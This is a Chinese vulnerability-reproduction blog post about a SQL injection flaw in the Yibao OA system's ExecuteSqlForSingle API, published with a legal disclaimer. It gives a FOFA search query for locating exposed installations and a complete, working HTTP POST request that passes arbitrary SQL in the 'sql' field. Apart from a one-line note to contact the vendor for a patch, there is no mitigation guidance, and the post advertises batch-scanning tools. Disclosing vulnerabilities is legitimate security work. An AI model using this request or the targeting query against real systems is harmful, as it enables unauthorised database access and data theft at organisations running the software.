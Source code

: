 #  易宝OA系统ExecuteSqlForSingle接口存在SQL注入漏洞 附POC   
原创 南风徐来  南风漏洞复现文库   2023-11-27 22:16  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 易宝OA系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
顶讯是一家数字化行业解决方案提供商，深耕行业三十余年，依托自主研发平台，聚焦事业单位等行业机构，提供场景化、客户解决方案并实现数字化转型实践，致力为客户打造并提供安全可信赖的数字化产品解决方  
案与专业服务  
。  
  
易宝OA系统是一种专门为企业和机构的日常办公工作提供服务的综合性软件平台，具有信息管理、 流程管理 、知识管理（档案和业务管理）、协同办公等多种功能。  
易宝OA系统ExecuteSqlForSingle接口存在SQL注入漏洞。  
## 2.漏洞描述  
  
顶讯是一家数字化行业解决方案提供商，深耕行业三十余年，依托自主研发平台，聚焦事业单位等行业机构，提供场景化、客户解决方案并实现数字化转型实践，致力为客户打造并提供安全可信赖的数字化产品解决方案与专业服务。作为数字化解决方案等引领者和推动者，多年来，我们着力研究数字化基础设施解决方案、数字化燃气营销客服解决方案、数字化电梯物联网检测平台、数字化智能工厂解决方案和数字化智慧空间学习管理系统五大核心技术，并已取得显著成效。在未来的科技创新发展战略中，公司始终秉承“从客户出发，与客户交融”的理念，积极响应社会信息化战略要求，为客户提供更智慧，更简单，更安全的数字化解决方案，开创可持续发展的信息科技新时代。该公司的易宝OA系统存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
易宝OA系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y1T0D44xFgUXo7tlv7JZuA77Qsj9EthzeHfwZbIPibKxVQqNsufwPTcPsESe93Eteb2OeOoK5AOsQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
易宝OA系统存在SQL注入漏洞  
## 4.fofa查询语句  
  
product="顶讯科技-易宝OA系统"  
## 5.漏洞复现  
  
漏洞链接：http://1127.0.0.1/api/system/ExecuteSqlForSingle  
  
漏洞数据包：  
```
POST /api/system/ExecuteSqlForSingle HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Length: 100
Content-Type: application/x-www-form-urlencoded

token=zxh&sql=select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&strParameters
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y1T0D44xFgUXo7tlv7JZuAg8Glno1uNQUIZ5libNb9ljD79V9ErhSKlSib5XdHG4ConjzbIMyttx7g/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现85 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y1T0D44xFgUXo7tlv7JZuAfprib43paN9e68bARKNtwOonezDvB4lE7pa2lTXlXricAxNhicxL0gZfw/640?wx_fmt=jpeg&from=appmsg "null")  
  
**本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y1T0D44xFgUXo7tlv7JZuAgFcT5qylZKadS5qk5Xfs9643wDIwibmZhupPeSof1zWst7c7aryiajTw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y1T0D44xFgUXo7tlv7JZuA4uMCUMNHsINHiawSOicuJlkmzWrvpudWS6Wtmna3M0Wib805OSZZibKNzQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y1T0D44xFgUXo7tlv7JZuACahPOHBwzK98ibYR3wiadm3CGlQcRpaibVkmPvLzgwsjB93uvbEblJiahA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请自行联系厂商打补丁。  
## 8.往期回顾  
  
[用友NC word.docx接口存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484647&idx=1&sn=ebb5271c84d60599929e37bb5ab8f939&chksm=974b89e0a03c00f6d967cbcfb28f3a8aef966fb4770867cdf540579262172deeadfeab0d4ccb&scene=21#wechat_redirect)  
  
  
[亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484633&idx=1&sn=564b1d5a595d7361fd8bdc358266e647&chksm=974b89dea03c00c83d2194779fdf96bd3a770825c66316a4ddfdbf1a16869543cd3ccef6fb1f&scene=21#wechat_redirect)  
  
  
  
